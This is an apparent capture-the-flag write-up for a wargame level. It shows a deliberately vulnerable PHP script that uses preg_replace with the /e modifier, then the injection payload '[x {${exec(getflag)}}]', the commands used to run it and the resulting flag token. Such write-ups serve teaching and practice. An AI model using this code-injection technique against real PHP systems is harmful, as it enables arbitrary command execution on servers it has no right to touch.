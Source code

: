                 echo '[x {${exec(getflag)}}]' > /tmp/flag


In this level we have a php script

    #!/usr/bin/php
    <?php
    function y($m) { $m = preg_replace("/\./", " x ", $m)
    $m = preg_replace("/@/", " y", $m)
    return $m
    }
    function x($y, $z) { $a = file_get_contents($y)
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a)
    $a = preg_replace("/\[/", "(", $a)
    $a = preg_replace("/\]/", ")", $a)
    return $a
    }
    $r = x($argv[1], $argv[2])
    print $r

    ?>

we have to found a way to give him getflag as argument, it will trunc some elements in the argument given so '[x {${exec(getflag)}}] will execute /bin/getflag

we have to output this in a file -> echo '[x {${exec(getflag)}}]' > /tmp/flag

./level06 /tmp/flag

    PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
